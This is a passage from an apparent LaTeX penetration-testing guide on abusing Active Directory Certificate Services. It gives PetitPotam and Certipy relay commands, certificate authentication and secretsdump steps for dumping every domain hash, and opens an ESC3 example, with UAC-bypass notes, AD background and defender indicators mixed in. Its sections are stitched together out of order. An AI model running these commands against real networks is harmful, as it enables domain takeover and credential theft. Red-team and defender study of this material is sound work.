    petitpotam.py -u 'dummy' -p 'dummy' - d <DOMAIN> <DC_IP> <YOUR_IP>
\end{minted}
\end{notebox}
\begin{itemize}
    \item \verb|<DC_IP>:| IP of the domain controller you are targeting.
    \item \verb|<YOUR_IP>:| IP of your relay server running Certipy.
\end{itemize}
PetitPotam exploits MS-EFSRPC to trigger an SMB authentication attempt from the DC to your attacking machine. When this happens, Certipy catches the NTLM authentication and relays it as a middle-man to the CA server. What exactly is happening here? Let us break down this process further:
\begin{enumerate}
    \item DC sends an SMB authentication attempt (NTLM) to our relay server.
    \item Certipy captures that NTLM handshake.
    \item Certipy then forwards it to the CA as the intermediary as if it came from the DC itself.
    \item The CA, trusting the DC, issues a certificate.
    \item Certipy receives the certificate for the DC machine account.
\end{enumerate}

\section{Step 3: Use the Certificate to Assess the Domain}
With a valid certificate for the domain controllers' machine account, you can now \textbf{authenticate to Active Directory as the DC}; albeit via impersonation, but nonetheless successful. Note, for example, the command shown below:
\begin{notebox}
\begin{minted}{bash}
    certipy auth -pfx <CERTIFICATE.pfx>
\end{minted}
\end{notebox}
The \verb|certipy auth -pfx <CERTIFICATE.pfx>| command is used to authenticate to an Active Directory domain using a client certificate stored in a \textit{Personal Information Exchange (\texttt{.pfx)}} file. This is often used by penetration and ethical hackers to exploit AD CS vulnerabilities, which, as we are beginning to understand, aid and allow an attacker to obtain a certificate that ultimately grants them unauthorized access via DC hijack and impersonation.
A detailed breakdown of what this command is actually doing is provided below.
\begin{itemize}
    \item \texttt{certipy:} Calls the Certipy tool, which is designed to find and exploit misconfigurations in AD CS.
    \item \texttt{auth:} Specifies the sub-command for authentication.
    \item \texttt{-pfx <CERTIFICATE.pfx>:} Provides the path to a \texttt{.pfx} file, which contains both the public and the associated private key needed for authentication.
\end{itemize}
\subsection{Replication}
Windows networks rely heavily on Active Directory, so availability and performance are critical. To ensure redundancy and load balancing, the AD database is stored on multiple domain controllers. If one server fails, clients can still connect to another DC that holds the same data. Adding a server to an AD domain automatically makes it a replication partner.

Replication itself is complex, as all domain controllers must stay in sync. Active Directory uses multi-master replication, which means updates can be made on any DC rather than a single master. All DCs are peers. Each server tracks which updates it has received from other servers and requests only missing changes if needed. This is managed using \textbf{Update Sequence Numbers (USNs)} - each change gets a unique USN so replication partners know what data are current.

\subsection{Flexible Single Master Operations (FSMO)}
Although most operations are multimaster, some functions must be handled by a single domain controller at a time to avoid conflicts. These special responsibilities are called \textbf{FSMO roles (Flexible Single Master Operations)}. Roles can be moved between DCs if needed. There are five FSMO roles:

\begin{itemize}
\textbf{\item Schema Master}
Maintains and updates the AD schema (the definitions of object classes and attributes). Only one per forest exists.
\item \textbf{Domain Naming Master}
Manages the addition and removal of domains in the forest. Only one per forest exists.
\item \textbf{RID Master (Relative Identifier Master)}
Assigns unique RIDs that combine with the domain SID to form unique object SIDs. 

Also responsible for handling object moves between domains. One per domain.
\item \textbf{PDC Emulator}
 Provides backward compatibility with NT 4.0, acts as the forest’s root time server, handles password changes and account lockouts, and is the authoritative DC for Group Policy updates. One per domain.
\item \textbf{Infrastructure Master}
Updates references to objects in other domains (such as group memberships when users move). One per domain.
\end{itemize}

\subsection{Security}
Active Directory includes several types of groups to simplify administration and manage access to resources. Groups differ by \textbf{scope} (where permissions apply) and by whether they are \textbf{default} (precreated) or custom.

\subsubsection{\textit{Default} \textit{Groups}}
When a domain is created, AD automatically generates default security groups such as \textit{Domain Admins} or \textit{Backup Operators}. These groups are assigned predefined rights; for example, members of \textit{Backup Operators} can perform backups of all DCs. Default groups are located in the containers \textit{Built-in} and \textit{Users}.

\begin{itemize}
\item The groups in \textit{Builtin} have a \textbf{Builtin Local} scope, which cannot be changed.
\item Groups in \textit{Users} may have \textbf{global} or \textbf{domain local} scope. They can be moved within the domain but not to other domains.
\end{itemize}

\subsubsection{\textit{Domain} \textit{Local Groups}}
 Used to manage permissions within a single domain. Membership can include:
\begin{itemize}
    \item Accounts, global groups, or universal groups from any domain
    \item Domain local groups from the same domain

Domain local groups are ideal for assigning resource permissions such as file shares or printers.
\end{itemize}

\subsubsection{\textit{Global Groups}}
Contain accounts and other global groups from the same domain. They can be assigned permissions in any domain in the forest, but membership is restricted to objects from their own domain. Global groups are often used for role-based access (e.g., grouping all HR users together). Changes replicate only within the domain, minimizing replication traffic.

\subsubsection{\textit{Universal Groups}}
Can contain accounts, global groups, or other universal groups from any domain in the forest. They can be granted permissions in any domain across the forest. Universal groups are typically used to consolidate access across domains, for example, by nesting global groups from multiple domains inside a universal group. Membership changes to nested global groups do not cause forest-wide replication.

\subsubsection{\textit{Group Policy}}
\textbf{Group Policy} is one of the most powerful features of Active Directory, giving administrators centralized control over user and computer environments. It is managed through the \textbf{Group Policy MMC snap-in}. Policies are applied to \textbf{sites, domains, or organizational units (OUs)} — not directly to groups.

Administrators can create multiple \textbf{Group Policy Objects (GPOs)} in a Group Policy Container and link them to the relevant site, domain or OU. Filtering is possible by removing the “Apply Group Policy” permissions for specific users or groups. Delegation allows managers to edit the settings of a GPO without giving them authority to create or rescope GPOs.

GPOs can also be disabled without deletion. Disabling applies only to the linked container and its children; If the GPO is linked elsewhere, it remains active in that scope.

\subsection{Software Deployment via Group Policy}
Group Policy integrates with \textbf{Windows Installer} and \textbf{Software Installation and Maintenance} to deploy, update, and remove software efficiently:

\begin{itemize}
    \item \textbf{Assigned Applications}
    \begin{itemize}
        \item If assigned to a \textit{user}, shortcuts appear on the desktop/start menu but installation occurs only when the program is first run.
        \item If assigned to a \textit{computer}, the application is installed at the next restart.
    \end{itemize}
    \item \textbf{Published Applications}
    \begin{itemize}
        \item Available to users through \textit{Add/Remove Programs} or by opening an associated file.
        \item Cannot be published to computers, don’t appear on the desktop/start menu, and do not support self-repair.
    \end{itemize}
    \item \textbf{File Types}
    \begin{itemize}
        \item \textbf{MSI files}: Required for assigned applications and support self-repair.
        \item \textbf{ZAP files}: Simple text-based install scripts that can be used for published apps.        
        \item They don’t support self-repair, elevated privileges, or silent installation.
    \end{itemize}
\end{itemize}

Administrators can manage upgrades by specifying mandatory replacements or by re-deploying a GPO with updated service packs or patches.
\chapter{Bypassing User Account Control (UAC)}
This section discusses the methods and implications of bypassing User Account Control (UAC) in Windows systems, and aims to showcase the balance between user convenience and experience along with security measures and balanced defensive security protections.
\begin{itemize}
    \item Explanation of the challenges in managing administrative privileges and the necessity of UAC to mitigate risks
    \item Demonstration of an attack scenario where a malware trick elevates privileges to access sensitive information.
    \item Showing the importance of having administrative privileges for successful exploitation of a system
\end{itemize}

This section discusses how User Access Control (UAC) functions to manage application privileges in Windows and explores methods attackers might use to bypass these security measures.
\begin{itemize}
    \item Introduction to UAC and its purpose in managing application privileges
    \item Explanation of how UAC operates by running applications in a low privilege context unless elevated permissions are explicitly granted
    \item Discussion on how applications can request higher privileges through UAC prompts, allowing them to run with admin rights
    \item Demonstration of how malware can inherit elevated privileges when executed from an admin context, highlighting potential security risks
    \item Mention of various techniques available to bypass UAC, indicating that there are multiple methods attackers can exploit

This section discusses the methods for bypassing User Account Control (UAC) in Windows, highlighting the trade-offs made by Microsoft to reduce user prompts and the implications of allowing certain programs to bypass UAC, which can lead to security vulnerabilities.
\item Introduction to UAC bypass methods and the rationale behind their development
\item Discussion on the risks of allowing programs to bypass UAC, particularly regarding vulnerabilities
\item Demonstration of a recent method to bypass UAC using command prompt and UAC me code
\item Emphasis on the absence of a UAC consent prompt during the bypass process

This section discusses a specific method of bypassing User Account Control (UAC) to gain elevated privileges on a system, detailing the process and implications for forensic analysis and endpoint protection.
\item The attacker successfully gains a privileged reverse shell, allowing them to elevate system access and extract sensitive information
\item The method exploits a vulnerability in the 'computer defaults' application, which can elevate privileges without additional prompts
\item The process leaves traces for forensic analysis, suggesting the need for alert rules to detect future occurrences of similar bypass attempts
\item Each bypass method has unique steps that can serve as signatures for detection by endpoint protection software, although effectiveness may vary across products

This section discusses methods of bypassing User Account Control (UAC) and emphasizes the importance of user awareness in preventing unauthorized access.
\item Skilled attackers can modify code to evade detection by advanced endpoint protection software
\item Raising UAC security levels can eliminate certain bypass methods, although it may result in more prompts for users
\item User education is crucial; users often click through prompts without thinking first, highlighting the need for better awareness
\item Adjusting security policies to require admin credentials for UAC prompts encourages users to consider the significance of their actions
\item Conclude by stressing the importance of not granting admin privileges unless absolutely necessary

\end{itemize}

\section{Active Directory Utilities}
\subsubsection{SIDwalker}
The security administration toolset consisting of three components: \verb|showaccs.exe|, \verb|sidewalk.exe|, and the \textit{\textbf{Security Migration Editor (MMC snap-in).}} The first two examine and modify ACL entries, while the editor maps old SIDs to new ones during AD domain or forest migrations.

\subsubsection{\texttt{repadmin.exe}}
Replication diagnostics tool. Used to check replication consistency between partners, view replication status, trigger replication events, and force Knowledge Consistency Checker (KCC) recalculations.

\subsubsection{\texttt{acldiag.exe}}
Utility for ACL diagnostics. Determines whether users have been granted or denied access to AD objects. Can also reset ACLs on objects back to their default values.

\subsubsection{Active Directory Service Interfaces (ADSI) Edit}
Low-level Active Directory editor, but is very useful. Allows you to add, move,and delete objects directly. Often used for advanced troubleshooting and schema modifications.



 
 








\subsubsection{How the Authentication Works}
The \verb|certipy auth| command uses the certificate to authenticate to the domain via one of these two methods:
\begin{itemize}
    \item \textbf{Kerberos PKINIT:} This is the default method. Certipy uses the certificate and private key to request a Kerberos Ticket Granting Ticket (TGT) from the Domain Controller.
    \begin{itemize}
        \item If successful, Certipy can use the TGT to retrieve the NTLM hash of the targeted user, which can then be used for further attacks such as Pass-the-Hash (PtH).
    \end{itemize}
\item \textbf{Schannel:} An alternative method that opens a secure LDAP (LDAPS) connection to the Domain Controller for authentication using the certificate.
\end{itemize}

\subsubsection{Context in the Attack Chain}
The \texttt{certipy auth} command is a post-exploitation step that an attacker would normally use after obtaining a valid client authentication certificate. The typical attack chain looks like this:
\begin{enumerate}
    \item \textbf{Enumeration:} An attacker uses Certipy's \texttt{find} command to discover vulnerable certificate templates published by the AD CS server.
    \item \textbf{Exploitation:} The attacker then requests a certificate using Certipy's \texttt{req} command, targeting a vulnerable template to obtain a certificate for an account they should not have access to.
    \item \textbf{Authentication:} The attacker then uses the \texttt{certipy auth -pfx} command with the newly obtained \texttt{.pfx} certificate to impersonate the target user.
    \item \textbf{Actions on Objectives:} With the authenticated session, the attacker can move laterally, elevate privileges, and carry out other malicious activities.
\end{enumerate}

\subsection{Kerberos PKINIT Role in AD CS}
\textit{PKINIT,} which stands for \textit{Public Key Cryptography for Initial Authentication in Kerberos}, is an extension to the Kerberos authentication protocol (defined in \textbf{RFC 4556} that uses public key cryptography instead of a shared symmetric key (such as a password hash) for initial authentication.

In a traditional Kerberos setup, a client authenticates to the \textit{\textbf{Key Distribution Center (KDC)}} using a password. Both the client and the KDC share a secret derived from the user's password. PKINIT replaces this password-based method with a more secure Public Key Infrastructure (PKI) system. Here is a basic process of how a PKINIT exchange process works:
\item \textbf{Client request:} the client sends an initial \textit{Authentication Service (AS)} request to the KDC.
        \item The request includes a signed time stamp and an X.509 client certificate that contains the requesting user's public key.
        \item The client uses its corresponding private key to sign the request, proving that it owns the certificate.
\textbf{\item KDC Validation: The KDC receives the request and performs several checks:}
\begin{enumerate}
    \item Validates the client's certificate by checking its signature and ensuring that it was issued by a trusted Certificate Authority (CA).
    \item Verifies the client's signature on the time stamp using the public key from the certificate.
    \item Maps the certificate's identity to the Kerberos principal (the user account).
\end{enumerate}
\textbf{\item Encrypted Reply: If validation and verification succeed, the KDC generates a shared session key and a Ticket Granting Ticket (TGT).}
\begin{enumerate}
    \item The KDC uses its own certificate to sign the reply, proving its authenticity to the client.
    \item It encrypts the session key using an encryption method like \textit{Diffie-Hellman (DH)} or \textit{RSA} encryption and sends it back to the client.
\end{enumerate}
\textbf{\item Client Finalizes: The client receives the reply and performs its own set of validation and verification checks:}
\begin{enumerate}
    \item Validates the KDC signature and certificate using the CA chain.
    \item It uses its private key to decrypt the session key.
    \item With the session key, the client can decrypt the TGT and use it for subsequent Kerberos requests.
\end{enumerate}

\subsubsection{Advantages Over Traditional Kerberos}
Public-key cryptography offers stronger authentication than traditional password-based methods because it is inherently more secure and resistant to password-guessing attacks. Instead of relying on user-generated credentials, it uses mathematically complex key pairs that are extremely difficult to crack.

PKINIT further strengthens security by supporting two-factor authentication through hardware tokens, such as smart cards. This method requires uses to possess a physical device (the smart card) and know a PIN to access their private key (something the user knows), combining something they have with something they know.

Another major advantage is that PKINIT eliminates the need for shared secrets between the Key Distribution Center (KDC) and the client. In traditional setups, both parties must store a common secret, which creates a security risk if the KDC is compromised. With PKINIT, trust is established through a shared Certificate Authority (CA), which reduces the attack surface.

Finally, PKINIT defends against Pass-the-Hash (PtH) attacks and similar attacks that exploit password-equivalent data and encryption material that is stored in memory. Since authentication does not rely on password hashes, attackers are unable to steal what is not there.

Continuing with Step 3, you can also use the Certipy tool to dump secrets from the domain controller using the following command demonstrated below:
\begin{notebox}
\begin{minted}{bash}
certipy auth -pfx <DC_CERTIFICATE.pfx> -target <DC_IP> -action secretsdump
\end{minted}
\end{notebox}
This is a powerful command for a couple of reasons. Completely bypasses password-based authentication. It is stealthy, meaning you do not need to crack any hashes offline or touch the domain controller directly, and the biggest plus is that you now control the DC, which means \textbf{you have pwned the domain.}

\section{Defender Notes}
\subsection{Indicators of Compromise (IOCs)}
When investigating potential abuse of Active Directory Certificate Services (AD CS), certain \textit{Indicators of Compromise (IOCs)} can help you identify malicious activities quickly. These indicators often appear during lateral movement, privilege escalation, or attempts to abuse certificate-based authentication mechanisms such as PKINIT or AD CS misconfigurations. Security teams and defenders should monitor the following IOCs to detect possible exploitation early.
\begin{enumerate}
    \item \textbf{Unexpected certificate requests using high-privileged templates}
Attackers can request certificates using templates like \verb|DomainController|, \verb|Machine|, or \verb|WebEnrollment|, which grants high-level privileges. These templates are often targeted on the ESC1 and ESC6 attack paths. Look for certificate requests from unexpected machines or users-especially those outside typical enrollment patterns.
         \item \textbf{NTLM authentication attempts from domain controllers (DC) to untrusted IP addresses.}
domain controllers should not initiate NTLM authentication to unknown or external IP addresses. Such behavior may signal a relay attack (e.g., PetitPotam) or attempts to exploit NTLM-based weaknesses to obtain ticket-granting certificates or forge authentication paths.
         \item \textbf{Event logs showing EFSRPC calls that resemble PetitPotam behavior (Event ID 541)}
         The PetitPotam technique abuses the Encrypting File System Remote Protocol (EFSRPC) to force authentication from domain controllers. As discussed above, PetitPotam attack events often precede NTLM relay attacks targeting AD CS. Event ID 541 in the \verb|Microsoft-Windows-CertificateServicesClient-Lifecycle-System| log can indicate such activity.
         \item \textbf{Unusual or excessive certificate enrollments in AD CS logs}
         A sudden spike in certificate enrollments, especially by user accounts not typically involved with such activity, could indicate or infer possible exploitation. AD CS logs (\verb|CertSrv| logs) should be monitored for anomalies, including failed enrollments or the use of legacy templates with weak or outdated security settings.
\end{enumerate}
\section{Exploiting AD CS for Relaying Attacks}
The first step is to configure Certipy to relay the incoming connections to the vulnerable certificate authority. Since we plan to relay a domain controller's connection, we need to specify the domain controller template:
\verb|certipy relay -ca {<CERTIFICATE_AUTHORITY_IP_ADDRESS>} - template DomainController|

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy5.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\importantbox{\textbf{Update 1/11/2024}
During an engagement, I ran into an unexpected twist: the organization had modified their default certificate templates. Specifically, they had replaced the template \verb|DomainController| with a custom one.

As a result, while I could still force the Domain Controller to authenticate to me, every attempt to request a \verb|DomainController| certificate had failed with an error. After spending more time troubleshooting than I would like to admit, I finally used Certipy to enumerate the available templates and discovered that \verb|DomainController| was no longer listed.

The fix was simple: switch the template name in my Certipy relay command to match the organization's custom template.

\textbf{TL;DR:} If you are getting errors when requesting a \verb|DomainController| certificate, check the enabled templates-the default may have been replaced.}

Now that Certipy is properly configured to relay connections using the correct template, we can move on to forcing the domain controller to authenticate against our server with PetitPotam.
\begin{notebox}
\begin{minted}{python}
    python3 PetitPotam.py -u {USERNAME} -p {PASSWORD} {LISTENER_IP_ADDRESS} {TARGET_IP_ADDRESS}}
\end{minted}
\end{notebox}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{petitpotam.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Once Certipy captures the incoming authentication, it relays it to the Certificate Authority (CA) and requests a certificate on behalf of the domain controller's machine account. This is dangerous because the certificate can then be used for Kerberos authentication, effectively allowing the attacker to impersonate the domain controller itself. With that level of access, the attacker can issue Kerberos tickets, impersonate any account in the domain, and ultimately take full control of the Active Directory environment.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{petitpotam1.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\section{Converting a Captured Certificate (CRT) File to a Trusted Certificate (CER)}
To convert a captured certificate (CRT) file to a trusted certificate (CER) file, you can use the OpenSSL command-line tool. Here is a step-by-step guide:
\begin{enumerate}
    \item Open a command prompt or terminal and navigate to the directory where your CRT file is located.
    \item Run the following command:
\end{enumerate}
\begin{notebox}
\begin{minted}{bash}
openssl x509 -in input.crt -out output.cer -outform der
\end{minted}
\end{notebox}
Replace \verb|"input.crt"| with your captured certificate file and \verb|"output.cer"| with the desired output file name.
    3. Press Enter to execute the command. This will convert the CRT to CER format
    4. The new CER file will be created in the same directory as your original CRT file.
\importantbox{\textbf{Note:} Make sure OpenSSL is installed on your system and added to your Windows operating system's \texttt{PATH}. If not, you can download it from \texttt{https://www.openssl.org/} and follow the installation instructions for your given operating system version.}
This command uses the OpenSSLs X.509 utility to convert the certificate from PEM (CRT) to DER (CER) format. The option \verb | -in | specifies the input file; \verb|-out| specifies the output file, and \verb|-outform der| sets the output format to DER.

To authenticate with a certificate and obtain the domain controller's machine account hash using the Certipy tool, follow these steps:
\begin{enumerate}
    \item Install Certipy: You can install it using \texttt{pip} by running \verb| pip install certipy| on your terminal or command prompt.
    \item Run Certipy to scan for certificates on the target machine:
\begin{notebox}
\begin{minted}{bash}
certipy --domain <TARGET_DOMAIN>
\end{minted}
\end{notebox}

\end{enumerate}
Replace \verb|<target_domain>| with the domain name you want to scan.
    3. Certipy will search for certificates and identify potential targets. It may take some time, depending on the number of certificates you find.
    4. Once you have identified a certificate that you want to use, run the following command to authenticate with it:
\begin{notebox}
\begin{minted}{bash}
certipy --auth <CERTIFICATION_PATH> --dc-ip <DOMAIN_CONTROLLER_IP>
\end{minted}
\end{notebox}
Replace \verb|<certificate_path>| with the path to the certificate file you want to use, and \verb|<domain_controller_ip>| with the IP address of your target domain controller.
    5. Certipy will attempt to authenticate using the certificate and provide the machine account hash, if successful. 
    Here is an example:
\begin{notebox}
\begin{minted}{bash}
certipy --auth /path/to/certificate.crt --dc-ip 192.168.1.100
\end{minted}
\end{notebox}
This command authenticates with the certificate at \verb|/path/to/certificate.crt| and uses the domain controller at \verb|192.168.1.100.|
    6. If authentication is successful, Certipy will output the machine account hash.
    \importantbox{\textbf{Note:} Make sure you have the necessary permissions and rights to run this command. Also, ensure that you have the correct permissions to access the certificate and domain controller.}
    \begin{figure}
        \centering
        
\includegraphics[width=0.75\linewidth]{certipy6.png}
        \caption{Enter Caption}
        \label{fig:placeholder}
    \end{figure}
\begin{notebox}
\subsection{Key Points}
\begin{itemize}
    \item The hash on the "Successfully authenticated as" line is the one you are looking for - the one that matters. It confirms that you have relayed the DC machine account and do not hold usable credentials.
    \item Everything below (RID, groups, privileges, flags) is context from querying AD with the knowledge that identity-defenders can use it to spot what privileges were abused.
    \item The long noise of the SMB versions does not add much to the core finding. Those usually just indicate protocol support-I have truncated them here for clarity.
    \end{itemize}
\end{notebox}

Once we have obtained the certificate, we can use Certipy to authenticate. This step proves ownership of the domain controller's machine account and extracts its corresponding NTLM hash:
\begin{notebox}
\begin{minted}{bash}
certipy auth -username <USERNAME> -domain <DOMAIN> -dc-ip <DC_IP> -pfx <Certificate.pfx>
\end{minted}
\end{notebox}
\textbf{➡️ Result:} Certipy returns the machine account hash for our target Domain Controller.

With that hash in hand, we can pass it on to other tools. For example, using Impacket's \textbf{Secretsdump}, we can extract all user password hashes from Active Directory, as shown below:
\begin{notebox}
\begin{minted}{bash}
impacket-secretsdump <DOMAIN>/<USERNAME>@<DC_IP> -hashes <NTLM_Hash>
\end{minted}
\end{notebox}
This works because the hash can be used anywhere that supports Pass-the-Hash authentication-including tools like CrackMapExec (CME), \verb|smbclient|, or custom Kerberos operations.
\textbf{➡️ Result:} Once the dump is complete, we now have the credentials for all users in the domain.

At this stage, we have full control of the Windows domain-the ability to impersonate any user, escalate privileges, and maintain persistence indefinitely.

\section{Exploit 2: ESC3}
To further investigate the domain for more misconfigurations that Certipy can discover and exploit, we began adding new certificate templates to the domain. During the setup of one of these templates, we enabled the "Supply in the request" option. When we did, a warning dialog appeared that noted that this configuration could introduce security issues.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certtemp.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Since our goal was to explore and deliberately test for exploitable misconfigurations, seeing that option available was exactly what we wanted.

\importantbox{\textbf{Note:} If you are testing in a lab, remember that after creating a new template you must also configure the Certificate Authority to issue it-otherwise it will not be usable.}

With the new certificate template in place, the next step is to have Certipy enumerate certificate templates and flag them for vulnerabilities (e.g., certificates that are vulnerable to abuse). Using the same discovery command from our earlier attack, Certipy flagged and identified the new template as being exposed and vulnerable to the ESC3 issue:
\begin{notebox}
\begin{minted}{bash}
certipy find -dc-ip <DC_IP> -u <USERNAME> -p <PASSWORD> -vulnerable
\end{minted}
\end{notebox}
\begin{figure}
    \centering
